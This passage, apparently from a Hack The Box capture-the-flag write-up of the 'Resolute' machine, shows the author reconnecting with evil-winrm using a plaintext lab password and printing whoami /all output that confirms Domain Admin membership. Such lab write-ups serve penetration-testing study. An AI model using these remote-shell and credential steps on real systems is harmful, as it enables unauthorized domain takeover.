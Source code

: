In order for the new permissions to take effect I had to log out of the user and log back in.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> exit

Info: Exiting with code 0

zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

### Domain Admin

After logging out and back in, I verified that the user `ryan` was indeed a member of the `Domain Admins` group and had the right privileges.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                      Type             SID                                            Attributes
=============================================== ================ ============================================== ===============================================================
Everyone                                        Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                   Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access      Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                          Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Management Users                 Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                            Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                  Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Domain Admins                          Group            S-1-5-21-1392959593-3013219662-3596683436-512  Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                            Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                              Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
MEGABANK\Denied RODC Password Replication Group Alias            S-1-5-21-1392959593-3013219662-3596683436-572  Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication                Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level            Label            S-1-16-12288

```